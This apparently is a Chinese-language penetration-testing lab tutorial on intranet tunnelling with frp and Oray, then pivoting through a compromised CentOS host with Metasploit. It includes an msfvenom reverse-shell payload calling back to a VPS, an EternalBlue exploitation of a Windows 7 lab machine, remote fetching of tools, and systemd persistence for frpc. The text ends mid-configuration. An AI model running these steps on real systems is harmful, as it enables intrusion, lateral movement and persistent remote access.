




# 第一天：外网访问内网服务


## 方法一：首先有公网ip

查看路由器WANIP是否与地址https://www.ip138.com/查询的公网ip是否一致,如果一致则有，否则，打电话给运营商，申请公网ip


路由器配置：端口映射，通过公网ip+port即可访问，内网主机：192.168.1.53，内网端口：80，外网端口：9000


## 方法二：无公网ip利用花生壳


注册域名：https://console.hsk.oray.com/domain


搜索：guoguogewangzi，查看域名列表，点击立即注册


下载客户端：https://hsk.oray.com/download/，选择对应平台，本次在kali上，选择Ubuntu


kali上安装花生壳客户端：

┌──(kali㉿kali)-[~]
└─$ dpkg -i phddns_5_1_amd64.deb


激活，使用SN和密码admin登录管理地址：http://b.oray.com，然后通过微信扫码进行账号绑定和激活即可


添加映射:https://console.hsk.oray.com/forward


应用名称：kali-web

HTTP协议

外网域名：guoguogewangzi.yicp.fun

内网主机：192.168.111.132

内网端口：80


kali开启apache2服务

┌──(kali㉿kali)-[~]
└─$ systemctl start apache2 

┌──(kali㉿kali)-[~]
└─$ systemctl status apache2


访问地址：http://guoguogewangzi.yicp.fun/，成功访问


## 方法三：使用frp搭建内网穿透服务器


中文文档地址：https://gofrp.org/docs/

github下载地址：https://github.com/fatedier/frp/releases


下载frp:


```shell
[root@VM-0-10-centos home]# tar zxvf frp_0.37.1_linux_amd64.tar.gz
frp_0.37.1_linux_amd64/
frp_0.37.1_linux_amd64/systemd/
frp_0.37.1_linux_amd64/systemd/frpc.service
frp_0.37.1_linux_amd64/systemd/frpc@.service
frp_0.37.1_linux_amd64/systemd/frps@.service
frp_0.37.1_linux_amd64/systemd/frps.service
frp_0.37.1_linux_amd64/frps_full.ini
frp_0.37.1_linux_amd64/LICENSE
frp_0.37.1_linux_amd64/frpc
frp_0.37.1_linux_amd64/frpc_full.ini
frp_0.37.1_linux_amd64/frpc.ini
frp_0.37.1_linux_amd64/frps.ini
frp_0.37.1_linux_amd64/frps
[root@VM-0-10-centos home]# cd frp_0.37.1_linux_amd64/
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ll
total 23984
-rwxr-xr-x 1 1001 121 10579968 Aug  3 23:22 frpc
-rw-r--r-- 1 1001 121     9503 Aug  3 23:25 frpc_full.ini
-rw-r--r-- 1 1001 121      126 Aug  3 23:25 frpc.ini
-rwxr-xr-x 1 1001 121 13934592 Aug  3 23:22 frps
-rw-r--r-- 1 1001 121     5010 Aug  3 23:25 frps_full.ini
-rw-r--r-- 1 1001 121       26 Aug  3 23:25 frps.ini
-rw-r--r-- 1 1001 121    11358 Aug  3 23:25 LICENSE
drwxr-xr-x 2 1001 121     4096 Aug  3 23:25 systemd
[root@VM-0-10-centos frp_0.37.1_linux_amd64]#
```


解释：

frps：服务端

frpc：客户端

frpc_full.ini：客户端完整配置文件

frpc.ini：客户端简易配置文件

frps_full.ini：服务端完整配置文件

frps.ini：服务端简易配置文件


启动frp服务端

```shell
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# cat frps.ini
```


kali机器修改frp客户端配置文件：frpc.ini

```shell
┌──(kali㉿kali)-[~]
└─$ tar -zxvf frp_0.37.1_linux_amd64.tar.gz
frp_0.37.1_linux_amd64/
frp_0.37.1_linux_amd64/systemd/
frp_0.37.1_linux_amd64/systemd/frpc.service
frp_0.37.1_linux_amd64/systemd/frpc@.service
frp_0.37.1_linux_amd64/systemd/frps@.service
frp_0.37.1_linux_amd64/systemd/frps.service
frp_0.37.1_linux_amd64/frps_full.ini
frp_0.37.1_linux_amd64/LICENSE
frp_0.37.1_linux_amd64/frpc
frp_0.37.1_linux_amd64/frpc_full.ini
frp_0.37.1_linux_amd64/frpc.ini
frp_0.37.1_linux_amd64/frps.ini
frp_0.37.1_linux_amd64/frps

┌──(kali㉿kali)-[~]
└─$ cd frp_0.37.1_linux_amd64

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ll
总用量 23984
-rwxr-xr-x 1 kali kali 10579968  8月  3 11:22 frpc
-rw-r--r-- 1 kali kali     9503  8月  3 11:25 frpc_full.ini
-rw-r--r-- 1 kali kali      126  8月  3 11:25 frpc.ini
-rwxr-xr-x 1 kali kali 13934592  8月  3 11:22 frps
-rw-r--r-- 1 kali kali     5010  8月  3 11:25 frps_full.ini
-rw-r--r-- 1 kali kali       26  8月  3 11:25 frps.ini
-rw-r--r-- 1 kali kali    11358  8月  3 11:25 LICENSE
drwxr-xr-x 2 kali kali     4096  8月  3 11:25 systemd
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ vi frpc.ini

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ cat frpc.ini
[common]                                  #此项相当于与服务器的7000端口建立了隧道
server_addr = 175.24.115.4                #frp服务器ip
server_port = 7000                       #frp服务器端口

[ssh]
type = tcp
local_ip = 127.0.0.1                  #内网ip，可以任意
local_port = 22                       #内网端口，可以windows的3389
remote_port = 6000                    

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$
```


启动frpc客户端

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```


连接公网服务器：175.24.115.4:6000端口，成功登录，frp服务搭建成功

```
/home/mobaxterm:ssh kali@175.24.115.4 -p6000
kali@175.24.115.4's password:                      #密码kali
Linux kali 5.9.0-kali1-amd64 #1 SMP Debian 5.9.1-1kali2 (2020-10-29) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 12 04:11:08 2021 from 192.168.111.1
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run “touch ~/.hushlogin” to hide this message)
┌──(kali㉿kali)-[~]
└─$ 
```


修改frp服务端配置文件：`vi frps.ini`，添加`web服务`和`token`：

```shell
[common]
bind_port = 7000
vhost_http_port = 80
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin
authentication_method = token        #客户端连接时需要token验证
token = xuegod123456                  #token值
```

保存退出并启动frps服务端：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ./frps -c frps.ini
```


修改frp客户端配置文件：`vi frpc.ini`，添`token`，以及`[web]`,如下：

```
[common]
server_addr = 175.24.115.4
server_port = 7000
token = xuegod123456

[ssh]                       #本地的22端口映射到公网服务器的6000端口
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000


[web]                    #本地的80端口映射到公网服务器的cloud.guoguogewangzi.com域名
type = http
local_port = 80
custom_domains = cloud.guoguogewangzi.com
```

保存退出并启动frpc客户端：

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```


修改/etc/hosts文件，添加`cloud.guoguogewangzi.com`域名解析记录，即可通过域名访问到kali的web服务

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/hosts
[sudo] kali 的密码：

添加如下一行：
192.168.111.132 cloud.guoguogewangzi.com
```


成功访问：http://cloud.guoguogewangzi.com/


其他：域名解析控制台，可以看到：cloud.guoguogewangzi.com，解析为ip：175.24.115.4


# 第二天


## 2.1 实战-利用frp，接收来自公网的shell


frps服务端frps.ini文件配置：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# cat frps.ini
[common]
bind_port = 7000
authentication_method = token
token = xuegod123456
[root@VM-0-10-centos frp_0.37.1_linux_amd64]#
```

启动frps服务端：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ./frps -c frps.ini
```


frpc客户端frpc.ini文件配置：

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ cat  frpc.ini
[common]
server_addr = 175.24.115.4
server_port = 7000
token = xuegod123456

[msf]								#本地的4444端口映射公网服务器的8000端口
type = tcp
local_port = 4444                  
local_ip = 192.168.111.132
remote_port = 8000

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$
```

启动frpc客户端:

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```




生成二进制文件

```shell
┌──(kali㉿kali)-[~]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8000 -b "\x00" -f elf -o xuegod
```


​	

启动msf，开启监听端口

```shell
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo msfdb run
```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.111.132
LHOST => 192.168.111.132
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.111.132:4444


```


公网服务器运行样本xuegod

```
[root@VM-0-10-centos home]# chmod +x xuegod
[root@VM-0-10-centos home]# ./xuegod
```


成功拿到公网服务器shell


## 2.2 使用MSF自带代理功能实现内网渗透


环境准备：kali，Centos，Windows7

Centos网卡设置：

nat模式和仅主机模式(和nat差不多，就是不能联网，内网模式)


外部网络ip：192.168.111.138，内部ip:192.168.201.128


Window7网卡设置：

仅主机模式：


内部网络ip:192.168.201.129


环境准备结束！


首先拿到Centos:192.168.111.138系统权限

```
chmod +x xuegod

./xuegod
```


拿到Centos:192.168.111.138系统权限


`arp`查看缓存表，可知与该主机通信的ip


`route`查看路由表，可知该主机存在那些网段：


建立路由，`route add 192.168.201.0 255.255.255.0 2`,会话id:2

```shell
meterpreter > background              #保存会话
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions        #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 2  #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) >

```


路由建立成功，查看路由表：192.168.201.0 网段(目标机器的内网)的网关为Session 2


探测内网主机存活,可以看到Centos:`192.168.201.128`内网主机被探测出来,但是Win7:`192.168.201.129`未被探测出来

```
msf6 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/discovery/arp_sweep
msf6 auxiliary(scanner/discovery/arp_sweep) > set RHOST 192.168.201.0/24
RHOST => 192.168.201.0/24
msf6 auxiliary(scanner/discovery/arp_sweep) > run

[+] 192.168.111.132 appears to be up (VMware, Inc.).
[+] 192.168.201.128 appears to be up (VMware, Inc.).
[+] 192.168.111.132 appears to be up (VMware, Inc.).
```


添加代理：`use auxiliary/server/socks_proxy`

```shell
msf6 auxiliary(scanner/discovery/arp_sweep) > use auxiliary/server/socks_proxy    #使用代理模块
msf6 auxiliary(server/socks_proxy) > sessions       #确保会话

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 auxiliary(server/socks_proxy) > show options        #查看详情

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > run               #启动代理
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) >

```

kali主机上修改：/etc/proxychains4.conf

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf

改为；
strict_chain严格模式，最后一行添加代理（本机）
socks5 192.168.111.132 1080           
```


主机存活扫描

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap 192.168.201.129-130
```


扫描漏洞，存在永恒之蓝漏洞

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 --script=smb-vuln-ms17-010.nse 192.168.201.129                           
```


漏洞利用:

代理启动msfdb

```
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run
```


MSF自带代理不稳定，看到socket error or timeout!就停了，多试几次，若是重复无果，可放弃使用MSF代理，选择Frp搭建内网代理

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```


## 2.3 通过frp内网穿透来实现内网穿透


kali复制frp_0.37.1_linux_amd64.tar.gz到web服务路径下：/var/www/html 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo cp frp_0.37.1_linux_amd64.tar.gz /var/www/html            #复制frp到web服务路径下：/var/www/html  
[sudo] kali 的密码：

┌──(kali㉿kali)-[~]
└─$ systemctl start apache2                                        #开启apache2服务
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
启动“apache2.service”需要认证。
Authenticating as: Kali,,, (kali)
Password:
==== AUTHENTICATION COMPLETE ===

┌──(kali㉿kali)-[~]
└─$
```


kali机器上：通过已经得到的反弹shell下，`wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz`下载

```
meterpreter > shell           #获得系统的shell
Process 9697 created.
Channel 1 created.
id                           #id命令
uid=0(root) gid=0(root) groups=0(root),994(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
wget http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz        #wget下载frp
--2021-10-13 15:14:34--  http://192.168.111.132/frp_0.37.1_linux_amd64.tar.gz
Connecting to 192.168.111.132:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9033483 (8.6M) [application/x-gzip]
Saving to: 'frp_0.37.1_linux_amd64.tar.gz.1'

     0K .......... .......... .......... .......... ..........  0% 46.4M 0s
    50K .......... .......... .......... .......... ..........  1% 42.7M 0s
   100K .......... .......... .......... .......... ..........  1%  335M 0s
   150K .......... .......... .......... .......... ..........  2% 48.3M 0s
   200K .......... .......... .......... .......... ..........  2%  199M 0s
   250K .......... .......... .......... .......... ..........  3% 49.9M 0s
   300K .......... .......... .......... .......... ..........  3% 92.5M 0s
```


```shell
#解压frp_0.37.1_linux_amd64.tar.gz
tar xf frp_0.37.1_linux_amd64.tar.gz
exit                                        #退出
```


修改frpc.ini配置文件,并添加frpc为systemctl服务启动

```shell
meterpreter > cd frp_0.37.1_linux_amd64
meterpreter > pwd
/root/frp_0.37.1_linux_amd64
meterpreter > ls
Listing: /root/frp_0.37.1_linux_amd64
=====================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  11358     fil   2021-10-13 03:24:09 -0400  LICENSE
100755/rwxr-xr-x  10579968  fil   2021-10-13 03:24:09 -0400  frpc
100644/rw-r--r--  126       fil   2021-10-13 03:24:09 -0400  frpc.ini
100644/rw-r--r--  9503      fil   2021-10-13 03:24:09 -0400  frpc_full.ini
100755/rwxr-xr-x  13934592  fil   2021-10-13 03:24:10 -0400  frps
100644/rw-r--r--  26        fil   2021-10-13 03:24:09 -0400  frps.ini
100644/rw-r--r--  5010      fil   2021-10-13 03:24:09 -0400  frps_full.ini
40755/rwxr-xr-x   88        dir   2021-10-13 03:24:09 -0400  systemd

meterpreter > edit frpc.ini

如下：
[common]
server_addr = 175.24.115.4
server_port = 7000


[socks9999]
type = tcp
remote_port = 9999
plugin = socks5
use_encryption = true
use_compression = true
```

```shell
meterpreter > mv frpc /usr/bin/frpc             #移动frpc客户端到/usr/bin/
meterpreter > mkdir /etc/frp                   #创建/etc/frp文件夹
Creating directory: /etc/frp                   
meterpreter > mv frpc.ini /etc/frp/frpc.ini    #移动frpc.ini客户端配置文件到/etc/frp/
meterpreter > mv ./systemd/frpc.service /usr/lib/systemd/system/frpc.service  #添加systemctl服务，
meterpreter > shell                            #进入shell
Process 10218 created.
Channel 4 created.
chmod +x /usr/bin/frpc                          #给frpc客户端执行权限
systemctl start frpc                            #通过systemctl方式启动
systemctl enable frpc							#开启自启动
Created symlink from /etc/systemd/system/multi-user.target.wants/frpc.service to /usr/lib/systemd/system/frpc.service.
exit                                            #退出
```


在Centos：192.168.111.138，验证是否开启：`systemctl status frpc`


公网服务器上可以看到9999端口监听:`netstat -pantu |grep 9999`


添加路由`route add 192.168.201.0 255.255.255.0 3`

```shell
meterpreter > background                           #保存会话
[*] Backgrounding session 3...
msf6 exploit(multi/handler) > sessions          #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  3         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:34434 (::1)

msf6 exploit(multi/handler) > route                 #查看路由，当前没有路由
[*] There are currently no routes defined.
msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 3     #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) > route                #查看路由，添加成功

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.201.0      255.255.255.0      Session 3

[*] There are currently no IPv6 routes defined.
msf6 exploit(multi/handler) >

```


kali主机shell上：修改/etc/proxychains4.conf文件，添加如下一行：

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf
[sudo] kali 的密码：

添加如下一行：Centos的socks5代理映射到了公网ip：175.24.115.4的9999端口上
socks5 175.24.115.4 9999

```


代理成功：`proxychains nmap 192.168.201.129`


漏洞利用：

通过代理启动msfdb

```shell
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run                       #启动msfdb                                                                                    1 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[i] Database already started
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.1
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue                #使用永恒之蓝漏洞利用模块
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129       #设置目标ip
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp   #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988      #设置端口
msf6 exploit(windows/smb/ms17_010_eternalblue) > run                   #运行
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14

[*] 192.168.201.129:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:135  ...  OK
[+] 192.168.201.129:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.201.129:445   - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.201.129:445 - Connecting to target for exploitation.
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[+] 192.168.201.129:445 - Connection established for exploitation.
```


成功拿到Win7:`192.168.201.129`权限


利用Win7:`192.168.201.129`的远程桌面服务：但是失败

```shell
meterpreter > background                           #保存会话
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/windows/manage/enable_rdp    #使用开启rdp模块
msf6 post(windows/manage/enable_rdp) > set forward true                                #开启转发
msf6 post(windows/manage/enable_rdp) > set lport 2323                                 #设置本地端口
msf6 post(windows/manage/enable_rdp) > set username xuegod                          #设置用户名：xuegod
msf6 post(windows/manage/enable_rdp) > set password 123456                          #设置密码:123456
msf6 post(windows/manage/enable_rdp) > set SESSION 1                                #基于会话id:1
msf6 post(windows/manage/enable_rdp) > run                                         #运行
```

```
#将Win7的3389端口映射到本地kali的2323端口，即可通过本地的kali的2323端口，远程桌面到Win7
meterpreter > portfwd add -L 192.168.111.132 -l 2323 -p 3389 -r 192.168.201.129

rdp客户端连接
┌──(kali㉿kali)-[~]
└─$ rdesktop -g 1440x900 -u admin -p 123 192.168.111.132:2323
```


结果：


远程桌面服务开启成功


用户未能创建成功


# 第三天


## 3.1 实战：内网穿透-二级代理


环境准备：

kali:172.31.50.223

桥接模式:


修改网卡配置文件：

```shell
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/network/interfaces

添加以下内容：
auto eth0             
iface eth0 inet static
address 172.31.50.223    
netmask 255.255.255.0  
gateway 172.31.50.2    

┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/resolv.conf

添加以下内容：
nameserver 114.114.114.114
```


配置成功：


Centos:172.31.50.224、192.168.111.142

新增一张网卡：桥接和NAT模式


修改网卡配置文件：

```
TYPE=Ethernet
PROXY_METHOD=none
BROWSER_ONLY=no
BOOTPROTO=static                    #静态模式
DEFROUTE=yes
IPV4_FAILURE_FATAL=no
IPV6INIT=yes
IPV6_AUTOCONF=yes
IPV6_DEFROUTE=yes
IPV6_FAILURE_FATAL=no
IPV6_ADDR_GEN_MODE=stable-privacy
NAME=ens33                            
UUID=0dd07099-51ba-4ac0-a3de-bd2a90d1f158
DEVICE=ens33
ONBOOT=yes                     #自动启动
IPADDR=172.31.50.224           #ip
NETMASK=255.255.255.0          #子网掩码
GATEWAY=172.31.50.2            #网关
DNS1=8.8.8.8                   #DNS      
```




配置成功：


Win7-1:192.168.111.131、192.168.201.130

新增一张网卡：NAT模式和仅主机模式


查看ip：`ipconfig`


配置成功：

```shell
C:\Users\admin>ping www.baidu.com

正在 Ping www.wshifen.com [103.235.46.39] 具有 32 字节的数据:
来自 103.235.46.39 的回复: 字节=32 时间=221ms TTL=128
来自 103.235.46.39 的回复: 字节=32 时间=224ms TTL=128

103.235.46.39 的 Ping 统计信息:
    数据包: 已发送 = 2，已接收 = 2，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 221ms，最长 = 224ms，平均 = 222ms
Control-C
^C
C:\Users\admin>ping 192.168.111.142

正在 Ping 192.168.111.142 具有 32 字节的数据:
来自 192.168.111.142 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.111.142 的回复: 字节=32 时间<1ms TTL=64

192.168.111.142 的 Ping 统计信息:
    数据包: 已发送 = 2，已接收 = 2，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
Control-C
^C
C:\Users\admin>
```


Win7-2:192.168.201.131

克隆Win7-1


仅主机模式


配置成功：


环境搭建完成：

<table>
    <tr>
        <td>主机</td> 
        <td>IP</td> 
        <td>网卡</td> 
   	</tr>
    <tr>
        <td>Kali</td> 
        <td>172.31.50.223</td> 
        <td>桥接模式</td> 
    </tr>
       <tr>
        <td>vps</td> 
        <td>175.24.115.4</td> 
        <td>公网服务器</td> 
    </tr>
    <tr>
        <td rowspan="2">Centos</td>    
        <td >172.31.50.224</td>
        <td>桥接模式</td> 
    </tr>
    <tr>
        <td >192.168.111.142</td>
        <td>NAT模式</td> 
    </tr>
        <tr>
        <td rowspan="2">Win7-1</td>    
        <td >192.168.111.131</td>
        <td>NAT模式</td> 
    </tr>
    <tr>
        <td >192.168.201.130</td>
        <td>仅主机模式</td> 
    </tr>
    <tr>
        <td>Win7-2</td> 
        <td>192.168.201.131</td> 
        <td>仅主机模式</td> 
    </tr>
</table>


Centos:192.168.111.142，修改frpc.ini配置文件如下：

```
[root@localhost frp_0.37.1_linux_amd64]# cat frpc.ini
[common]
server_addr = 175.24.115.4
server_port = 7000
token = xuegod123456


